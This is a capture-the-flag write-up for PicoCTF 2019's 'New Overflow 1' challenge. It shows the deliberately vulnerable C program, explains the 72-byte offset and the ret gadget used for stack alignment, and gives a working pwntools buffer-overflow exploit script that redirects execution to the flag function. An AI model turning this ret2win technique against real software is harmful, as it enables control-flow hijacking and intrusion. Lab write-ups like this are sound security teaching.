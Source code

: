 [Back](PicoFrontPage.md)

# New Overflow 1
---

### Intro
* You'll need to understand 64-bit calling conventions for this challenge

### Tools
* GEF-GDB
* Pwntools - Python3
* Ropper

### Source Code

```c
#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

### Analysis

Some important points:
* Working with 64-bit which translates to everything being in 8 bytes (64 bits)
* 64-bit programs store arguments in registers, not on the stack (not needed in this question though)

Start off by doing the usual, calculating how many bytes are required to overwrite the instruction pointer (`$rip`) (remember, the registers are 8 bytes now, not 4).

It should come out as 72 bytes to reach the instruction pointer.

Next, we will be searching for an appropriate ROP gadget using `ropper`
ROP gadgets are all series of instructions that conclude with a `ret` instruction.
Command: `ropper -f ./vuln`
To search for specific ROP instructions:
`ropper -f ./vuln --search "Enter instruction here"`
We don't need to store anything inside any instruction so just a normal `ret` instruction will do.

<!-- NewOverflow1Ropper -->
![Image of ropper](../Images/PicoCTF2019/NewOverflow1ropper.JPG)

Find out the address of the `flag()` function however you want (e.g., `x flag`, `disas flag`, `info functions`, etc.) and then construct your script as below.

Note: if you try to run it without the gadget, the program will get stuck at the instruction below:

<!-- NewOverflow1movaps -->
![Image of movaps](../Images/PicoCTF2019/NewOverflow1movaps.JPG

If you search the instruction up, it'll basically say that it's getting stuck because it's not aligned on a 16-byte boundary (not divisible by 16).
Since we're working with hexadecimal addresses, this means that the address has to end in a 0.

### Pwntools Script

Here is the script:

```python
from pwn import *

p = process('./vuln') # specifying the process

# variables
ret = 0x04005de	# rop gadget
flag = 0x0400767 # flag function address

# payload, p64() because 64-bit (little-endian)
payload = b'A'*72
payload += p64(ret)
payload += p64(flag)

# receive until character
p.recvuntil(b':')

# send payload as one line
p.sendline(payload)

# to get a shell
p.interactive()
```

To run it through the pico2019 server you'll need the `ssh` feature:
```python
s = ssh(host='2019shell1.picoctf.com', user='YourUsername', password='YourPassword')
p = s.process('AbsolutePathToProgram', cwd='TheWorkingDirectoryOfProgram')
```

Run the script and you should win.

[Overflow 2](overflow2writeup.md) | [New Overflow 2](newoverflow2writeup.md)

